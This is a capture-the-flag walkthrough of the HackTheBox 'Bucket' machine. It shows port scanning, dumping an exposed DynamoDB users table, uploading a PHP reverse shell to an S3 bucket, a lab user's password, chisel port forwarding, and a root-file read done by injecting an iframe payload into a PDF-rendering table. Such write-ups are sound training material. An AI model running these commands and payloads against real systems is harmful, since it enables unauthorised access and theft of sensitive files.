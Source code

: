 # HackTheBox-Bucket

## Rustscan
```  
rustscan -a 10.10.10.212 -- -A -sC -sV                                                            
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.                                                                                            
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |                  
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |                  
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'                  
The Modern Day Port Scanner.                                              
________________________________________                                  
: https://discord.gg/GFrQsGy           :                                                                                                            
: https://github.com/RustScan/RustScan :                                  
 --------------------------------------                                                                                                             
Please contribute more quotes to our GitHub https://github.com/rustscan/rustscan
[~] The config file is expected to be at "/root/.rustscan.toml"                                                                                     
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.10.212:22                 
Open 10.10.10.212:80  

PORT   STATE SERVICE REASON         VERSION                               
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)                                                             
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.41                   
| http-methods:                                                           
|_  Supported Methods: GET HEAD POST OPTIONS                              
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://bucket.htb/ 
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port                                               
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete                                                                   
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Linux 2.6.32 (94%), ASUS RT-N56U WAP 
(Linux 3.4) (93%), Linux 3.16 (93%), Adtran 424RG FTTH gateway (92%), Linux 2.6.39 - 3.2 (92%), Linux 3.1 - 3.2 (92%), Linux 3.2 - 4.9 (92%)
No exact OS matches for host (test conditions non-ideal).                                                  
```

## PORT 80

<img src="https://imgur.com/F8kCYpR.png"/>

It's using a domain name so we are going to add that to `/etc/hosts`

<img src="https://imgur.com/hwKCBoB.png"/>

<img src="https://imgur.com/iVoPtr3.png"/>

Notice that we don't see images , the reason behind it is that it's retreiving the image from `s3.bucket.htb`

<img src="https://imgur.com/pKrvwba.png"/>

Running `dirsearch` against that

<img src="https://imgur.com/d6AmCti.png"/>

<img src="https://imgur.com/BgZT40l.png"/>

If we visit  `s3.bucket.htb/shell`

<img src="https://imgur.com/cwA487v.png"/>

But adding `/` makes a difference

`s3.bucket.htb/shell/`

<img src="https://imgur.com/FOZrjgn.png"/>

Reading the documentation to list tables
```
 var params = {
 };
 dynamodb.listTables(params, function(err, data) {
   if (err) console.log(err, err.stack); // an error occurred
   else     console.log(data);           // successful response
 });
```


<img src="https://imgur.com/UfKcl8Z.png"/>

<img src="https://imgur.com/StsKG3h.png"/>

We have a found a  table name `users` , to view the data from the table

```
var params = {
    TableName:"users"};

docClient.scan(params, (error, result) => {
    if (error) {
      console.log('error', error);
    } else {
      console.log(result.Items); // x items
    }
});

```

<img src="https://imgur.com/NzSud2H.png"/>

Tried using these credentials through ssh but failed 

<img src="https://imgur.com/92pFFyB.png"/>

Also running wfuzz on `http://s3.bucket.htb/shell/` didn't returned anything intersting

<img src="https://imgur.com/MnbRUxK.png"/>

So after spending so much time I realized tha I could also list the tables using `aws cli`

<img src="https://imgur.com/3Iy3BFT.png"/>

We needed to setup the credentials and the region first also to note that our end point url will be `http://s3.bucket.htb`

<img src="https://imgur.com/F3sWdBF.png"/>

<img src="https://imgur.com/J3IRMxu.png"/>

We can view the tables from here as well

<img src="https://imgur.com/YI9CWYr.png"/>

Honestly did not know what I was doing until I ran aws s3 ls again

<img src="https://imgur.com/BM1GfQ9.png"/>

<img src="https://imgur.com/R7qu1kJ.png"/>

Here we can see index.html , if we visit `s3.bucket.htb/adserver/index.html`, it will be the same as `bucket.htb` so this means if we upload a php reverse shell on the bucket which is `adserver` we can access that from `bucket.htb`

<img src="https://imgur.com/9JD6vq9.png"/>

That reverse shell is uploaded also keep it my mind to access that quickly because s3 bucket is going to remove it

<img src="https://imgur.com/cphnr5r.png"/>

We can switch user to `roy` with the password `n2vM-<_K_Q:.Aa2` also if we look for open ports we can find port 8000 is running as http so we can do port forwarding with `chisel`

<img src="https://imgur.com/s5efLeS.png"/>

On our machine 

<img src="https://imgur.com/m7ZaOnp.png"/>

On target machine

<img src="https://imgur.com/QvesVHl.png"/>

<img src="https://imgur.com/VMDuMaB.png"/>

We can also find `bucket-app` in /var/www

<img src="https://imgur.com/YZBaJ7j.png"/>

Looking at `index.php` it's using dynamodb  client to iterate contents of `alerts` table and then reading it and storing it to a pdf using `pd4ml` which converts html and css to pdf

So we need to create a table first 

```
aws dynamodb create-table \
    --table-name alerts \
    --attribute-definitions \
        AttributeName=title,AttributeType=S \
        AttributeName=data,AttributeType=S \
    --key-schema \
        AttributeName=title,KeyType=HASH \
        AttributeName=data,KeyType=RANGE \
--provisioned-throughput \
        ReadCapacityUnits=10,WriteCapacityUnits=5 --endpoint-url 'http://s3.bucket.htb'
```

<img src="https://imgur.com/ccGCPj8.png"/>

<img src="https://imgur.com/H8gbH0Q.png"/>

Now we need to insert the data

```
aws dynamodb put-item \                                                                                                                           
    --table-name alerts \                                                                                                                       
    --item '{
        "title": {"S": "Ransomware"},
        "data": {"S": "<html><head></head><body><iframe src='/root/root.txt'></iframe></body></html>"}
      }' \                                                                                                          
    --return-consumed-capacity TOTAL --endpoint-url http://s3.bucket.htb
```

<img src="https://imgur.com/O9UQ7xL.png"/>

<img src="https://imgur.com/6OT0LNh.png"/>

Now doing a POST request with `action=get_alerts`

`curl --data "action=get_alerts" -X POST http://127.0.0.1:8000`

<img src="https://imgur.com/SF5ntky.png"/>

Note : The converted pdf file will get removed also the table so you need to be quick here to get the file

I started a python http server

<img src="https://imgur.com/QkL69ne.png"/>

<img src="https://imgur.com/8QHZ82X.png"/>

And we got the root flag , although I was able to get the private ssh key but couldn't make it in a proper format so I just left having a root hash